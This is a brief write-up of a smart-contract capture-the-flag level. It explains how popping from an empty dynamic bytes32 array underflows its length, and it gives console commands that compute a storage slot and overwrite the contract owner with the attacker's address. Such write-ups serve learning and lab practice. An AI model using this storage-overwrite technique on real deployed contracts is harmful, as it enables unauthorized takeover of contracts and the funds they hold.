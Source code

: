 Notes before solving:
1. We have bytes32 array that is dynamic. Dynamic array has underflow weakness so if the array is set to 0 by decrementing it we will reach the highest number for a dynamic array.
2. We have a function that will turn contact to true ``make_contact``
3. We have function retract that allow us to pop the top from the array.
4. We have revise function that allow us to replace the inside the array.

## How we will attack:
1. Call make_contact and turn contact to true.
2. Then we will call retract inorder to underflow and have full control on contract storage.
3. Then we find where the contract owner set and call the revise method to add our address.

## Attack
1. await contract.make_contact()
2. await contract.retract()
3. We will get the length of the array by calling p = web3.utils.keccak256(web3.eth.abi.encodeParameters(["uint256"],[1])) .
4. Now we will get the owner address. i = BigInt(2**256) -BigInt(p) . The owner is in the in slot 0 in the bytes array.
5. content = "0x" + '0'.repeat(24) + player.slice(2)  this is the one that we will replace.
6. To switch with the owner contract await contract.revise(i,content) 
